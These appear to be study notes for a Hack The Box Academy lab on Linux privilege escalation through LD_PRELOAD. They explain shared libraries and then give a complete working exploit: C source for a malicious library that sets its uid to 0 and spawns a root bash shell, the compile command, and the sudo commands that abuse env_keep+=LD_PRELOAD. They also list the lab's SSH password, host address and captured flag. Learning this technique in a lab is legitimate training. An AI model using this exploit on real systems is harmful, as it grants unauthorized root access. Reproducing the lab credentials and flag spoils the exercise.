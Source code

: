 # Shared Libraries

2 types of libraries exist in Linux:

- static libraries (denoted by the .a file extension)
- dynamically linked shared object libraries (denoted by the .so file extension).

LD_PRELOAD environment variable can load a library before executing a binary

1) View shared objects required by a binary 

ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)

2) LD_PRELOAD Privilege Escalation : required a user with sudo privilege

sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart

3) Create a custom shared library

vi root.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

4) Compile the library

gcc -fPIC -shared -o root.so root.c -nostartfiles

5) Escalate privileges

sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)

## LAB

ssh htb-student@10.129.220.117
Academy_LLPE!

ldd /bin/ls
	linux-vdso.so.1 =>  (0x00007ffd07342000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f50bb6a6000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f50bb2dc000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f50bb06c000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f50bae68000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f50bb8c8000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f50bac4b000)

sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl

vi root.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

gcc -fPIC -shared -o root.so root.c -nostartfiles

sudo LD_PRELOAD=/home/htb-student/root.so /usr/bin/openssl restart
root@NIX02:~# cat /root/ld_preload/flag.txt
6a9c151a599135618b8f09adc78ab5f1

